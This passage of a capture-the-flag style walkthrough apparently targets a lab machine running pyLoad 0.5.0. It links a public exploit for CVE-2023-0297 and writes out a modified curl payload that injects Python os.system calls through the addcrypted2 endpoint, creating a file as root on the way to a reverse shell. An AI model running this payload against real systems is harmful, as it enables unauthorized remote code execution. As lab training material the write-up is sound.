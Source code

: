 The version of `pyload` running is `0.5.0`. On searching exploits for this version of payload, found the following website: [https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) , which showcased the RCE vulnerability on this version of `pyload`.

![Untitled 22.png](PC/assets/Untitled%2022.png)

We have found the exploit. Now we can modify it to our needs and run the exploit.

> [!important]  
> Note: The above exploit can execute only one command at a time. Don’t try to chain a series of commands, it won’t work. Run the commands one by one.  

First we are going to create a [`reverse.sh`](http://reverse.sh) shell file on the target machine in any directory, in this case we are using the `/tmp` directory. To do this run the following modified exploit:

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/rev.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:5000/flash/addcrypted2'

// Commands are URL encoded
```

If we run the above exploit, we can see that an error is thrown.

![Untitled 23](PC/assets/Untitled%2023.png)

But if we open another terminal and login to the target machine via SSH as `sau` and check the `/tmp` directory we can see that a `rev.sh` file is created with root permissions.

![Untitled 24](PC/assets/Untitled%2024.png)
